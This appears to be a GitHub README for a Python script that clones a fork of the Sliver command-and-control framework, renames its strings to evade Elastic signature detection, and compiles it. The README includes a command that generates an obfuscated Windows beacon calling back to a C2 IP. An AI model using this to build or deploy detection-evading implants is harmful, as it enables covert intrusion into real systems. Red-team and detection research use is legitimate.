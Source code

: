 # SliverCloakPy
Bypass common signature detections such as the ones from elastic.

Python script that does the job of slivercloak against armysick's sliver fork

slivercloak -> https://github.com/thelikes/slivercloak

armysick's sliver -> https://github.com/armysick/sliver

## Usage

Right now the script covers the Elastic Module, but you can replace whatever you want to be honest.

I did this small script because I have a hard time understanding all the work behind go, and I wanted to use armysick's fork, since it implements the ekko sleep module.

Just download the script and run `python3 builder.py`
This will automatically clone armysick's sliver, and get the necessary dependecies, afterwards, it will replace strings in the files and compile the proyect

Beacons are renamed to Krakens, and sliver-server/client is renamed to golder-server/client

## example of generating a beacon with ekko sleep obfuscation -B
```
sudo ./golder-server

generate kraken --http 10.10.10.134 -s /mnt/c/Payloads --arch amd64 --os windows -B -f exe

http
```

## armory problems fix
Since this is replacing strings, including the ones of armory, you wont be able to install armory packages straight away, here is a quick fix

```
armory add -u https://api.github.com/repos/sliverarmory/armory/releases -k "RWSBpxpRWDrD7Fe+VvRE3c2VEDC2NK80rlNCj+BX0gz44Xw07r6KQD9L" armory

armory install all
```
